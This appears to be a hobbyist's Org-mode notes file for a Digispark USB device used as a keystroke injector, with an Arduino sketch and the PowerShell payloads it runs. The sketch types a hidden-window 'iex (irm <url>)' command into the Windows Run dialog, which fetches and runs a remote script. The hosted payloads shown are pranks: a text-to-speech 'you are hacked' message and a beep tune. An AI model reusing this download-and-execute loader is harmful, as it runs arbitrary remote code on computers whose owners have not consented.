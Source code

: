 #+TITLE: My Digispark playground
#+auto_tangle: t


:toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#old-payloads][Old payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  //Set Pins 1 as outputs.
  pinMode(1, OUTPUT); //my digispark red led: 1, others could be 0
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // The payload is here :-)
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  //Finished. Now show a red LED to indicate  the payload is deployed
  digitalWrite(1, HIGH);
  for (;;) {/* Stops the loop */}
}
#+end_src

* Some powershell tips




* script.ps1
The next code block is my current script that is deployed by my Digispark and hosted on Github.


#+begin_src shell :tangle script.ps1
# Source URL
$url ="https://www.gnu.org/licenses/old-licenses/gpl-2.0.txt"
# Destation file
$dest = "c:\temp\gpl.txt"
# Download the file
Invoke-WebRequest -Uri $url -OutFile $dest
# Read the contents of the text file into a variable
$text = Get-Content -Path $dest -Raw
# Wait for 120 seconds before running next part
Start-Sleep -Seconds 1
# Text to speech :-)
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
$s.Speak("Test test testicles. OMG whats going on. Seems like you are hacked right? Oh yes indeed you are hacked and powned. First let me do some work and I will talk to you in a minute. Meanwhile you should wave to the camera.")
Start-Sleep -Seconds 3
$s.Speak("Do re mi fa so la ti do. Don't worry just warming up my vocal chords. I will give a speech to you soon. Downloading some files.")
Start-Sleep -Seconds 1
$s.Speak($text)

#+end_src

#+RESULTS:



$s.Speak("Yo, yo. You have been hacked. Please wave to the camera. Ha, ha. Fortunately this is just for shits and giggles. But. Remember. You could have been seriously compromised. Over and out. Peace.")

https://static.pbslearningmedia.org/media/media_files/Full_text_I_Have_a_Dream_.pdf


** Old payloads

Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src
